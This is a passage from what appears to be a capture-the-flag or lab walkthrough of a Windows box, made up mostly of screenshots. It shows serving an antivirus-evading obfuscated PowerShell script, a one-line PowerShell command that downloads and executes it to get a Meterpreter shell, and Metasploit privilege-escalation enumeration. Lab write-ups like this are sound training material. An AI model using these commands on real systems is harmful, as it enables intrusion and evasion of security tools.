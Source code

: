 ![](https://paper-attachments.dropbox.com/s_70F45A0969F37A99ED1A657AF2E8D7B314564C871AC1961D0B84F468D38FDF75_1557382869041_image.png)

*delete the double quote in the beginning and the end of the powershell script to have a pure version of it. Now we have a script that has been obfuscated to evade antivirus.* 

setup local SimpleHTTPServer

    python -m SimpleHTTPServer

![](https://paper-attachments.dropbox.com/s_70F45A0969F37A99ED1A657AF2E8D7B314564C871AC1961D0B84F468D38FDF75_1557382981791_image.png)

On target shell:

    powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.10.194:8000/exploit.html')"

![](https://paper-attachments.dropbox.com/s_70F45A0969F37A99ED1A657AF2E8D7B314564C871AC1961D0B84F468D38FDF75_1557383084773_image.png)

box hits the web-server:

![](https://paper-attachments.dropbox.com/s_70F45A0969F37A99ED1A657AF2E8D7B314564C871AC1961D0B84F468D38FDF75_1557383116068_image.png)

Meterpreter Shell:

![](https://paper-attachments.dropbox.com/s_70F45A0969F37A99ED1A657AF2E8D7B314564C871AC1961D0B84F468D38FDF75_1557383168371_image.png)

*firstly, check the sysinfo to see architecture and the meterpreter session is in a 32bit session.*

## enumerate windows
    getuid

![](https://paper-attachments.dropbox.com/s_70F45A0969F37A99ED1A657AF2E8D7B314564C871AC1961D0B84F468D38FDF75_1557385526491_image.png)

search suggest - checks KBs on box and recommended exploits

    search suggest

![](https://paper-attachments.dropbox.com/s_70F45A0969F37A99ED1A657AF2E8D7B314564C871AC1961D0B84F468D38FDF75_1557385966485_image.png)

    use post/multi/recon/local_exploit_suggester
    show options
    set SESSION 1
    run

*first ran in a 32bit bit process and then migrate to a x64 as different exploits become available. Run PowerUp.ps1 if nothing returns.*
(results)

![](https://paper-attachments.dropbox.com/s_70F45A0969F37A99ED1A657AF2E8D7B314564C871AC1961D0B84F468D38FDF75_1557386174495_image.png)

*save results as a copy locally.*

## migrate to 64bit
Meterpreter:
